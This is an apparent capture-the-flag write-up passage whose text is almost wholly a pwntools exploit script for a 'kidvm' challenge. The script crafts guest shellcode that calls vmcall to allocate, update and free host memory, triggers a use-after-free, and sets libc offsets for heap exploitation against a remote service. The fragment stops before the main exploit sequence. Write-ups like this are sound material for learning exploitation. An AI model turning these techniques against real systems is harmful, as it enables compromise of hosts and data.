 The exploit is 

```python
from pwn import *

g_local=False
e=ELF('./libc-2.23.so')
context.log_level='debug'
UPDATE_RET_ADDR = 0x122
LAST_ALLOC_SIZE = 0x1F3
IO_STR_FINISH = 0x3c37b0
UNSORT_OFF = 0x7f603f138b78 - 0x7f603ed74000
if g_local:
	sh = process('./kidvm')#, env={'LD_PRELOAD':'./libc-2.23.so'})
	#gdb.attach(sh)
else:
	sh = remote("34.236.229.208", 9999)


def alloc(size):
	sh.send("1")
	sh.recvuntil("Size:")
	sh.send(p16(size))
	sh.recvuntil("Your choice:")

def update(idx, content):
	sh.send("2")
	sh.recvuntil("Index:")
	sh.send(chr(idx))
	sh.recvuntil("Content:")
	sh.send(content)
	#sh.recvuntil("Your choice:")

def alloc_host(size):
	push_0x100_popf = "\x68\x00\x01\x9D"
	# forgot this initially, stuck for 1 hours :(
	mov_ax = "\xB8" + p16(0x100)
	mov_bx = "\xBB" + p16(size)
	vmcall = "\x0f\x01\xc1"
	return push_0x100_popf + mov_bx + mov_ax + vmcall

def update_host(size, idx, bx):
	push_0x100_popf = "\x68\x00\x01\x9D"
	mov_ax = "\xB8" + p16(0x102)
	mov_bx = "\xBB" + p16(bx)
	mov_cx = "\xB9" + p16(idx)
	mov_dx = "\xBA" + p16(size)
	vmcall = "\x0f\x01\xc1"
	return push_0x100_popf + mov_ax + mov_bx + mov_cx + mov_dx + vmcall

def free_host(idx):
	push_0x100_popf = "\x68\x00\x01\x9D"
	mov_ax = "\xB8" + p16(0x101)
	mov_bx = "\xBB" + p16(1) # 1 will cause UAF
	mov_cx = "\xB9" + p16(idx)
	vmcall = "\x0f\x01\xc1"
	return push_0x100_popf + mov_ax + mov_bx + mov_cx + vmcall

def write_stdout(addr, size, ip):
	mov_ax = "\xB8" + p16(addr)
	mov_bx = "\xBB" + p16(size)
	call = "\xE8" + p16(0x1f3 - (ip + len(mov_ax + mov_bx) + 3))
	return mov_ax + mov_bx + call

```